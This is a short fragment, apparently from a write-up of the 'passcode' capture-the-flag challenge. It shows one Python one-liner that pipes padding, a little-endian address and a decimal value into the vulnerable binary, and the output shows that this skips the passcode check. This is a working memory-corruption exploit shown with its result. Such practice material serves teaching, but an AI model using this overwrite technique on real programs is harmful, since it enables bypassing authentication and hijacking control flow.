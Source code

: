 {% highlight bash %}
passcode@ubuntu:~$ python -c "print('A' * 96 + '\x04\xa0\x04\x08' + '134514147')" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
{% endhighlight %}